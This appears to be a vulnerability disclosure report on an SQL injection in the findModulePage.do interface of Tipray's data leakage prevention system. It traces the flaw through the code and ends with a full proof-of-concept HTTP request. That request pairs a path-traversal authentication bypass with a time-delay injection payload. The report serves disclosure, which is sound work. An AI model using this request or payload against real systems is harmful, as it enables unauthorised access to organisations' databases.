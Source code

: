 # SQL Injection Vulnerability in the findModulePage.do Interface of Tipray Data Leakage Prevention System

## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We found a sink point in `com.trwfe.controller.MenuController#findModulePage`.

<img width="1195" height="415" alt="image" src="https://github.com/user-attachments/assets/064863ba-fca7-41a7-b488-7602d0a93fee" />

Based on our analysis in the first report, the `PageVo` class is insecure and its parameters are user-controllable. Let’s continue to trace further.

<img width="1585" height="1085" alt="image" src="https://github.com/user-attachments/assets/b1a92d26-9b04-4425-83b5-0ec0aa7cf828" />

Trace down to the mapper layer.

<img width="2001" height="631" alt="image" src="https://github.com/user-attachments/assets/31a92f72-db0f-4b9a-9495-8a61a30b9fe4" />

The use of `${` leads to SQL injection.

The following POC can be constructed for verification:
```
POST http://ip/trwfe/login.jsp/..;/menu/findModulePage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

sort=1+AND+(SELECT+8234+FROM+(SELECT+SLEEP(4))test)
```

<img width="1895" height="810" alt="image" src="https://github.com/user-attachments/assets/be7c8051-9d93-4ecf-a2db-584419ad5830" />

The time-delay injection was successfully triggered. The `findModulePage.do` interface has an SQL injection vulnerability.

Thank you for your review. Wish you a pleasant day!
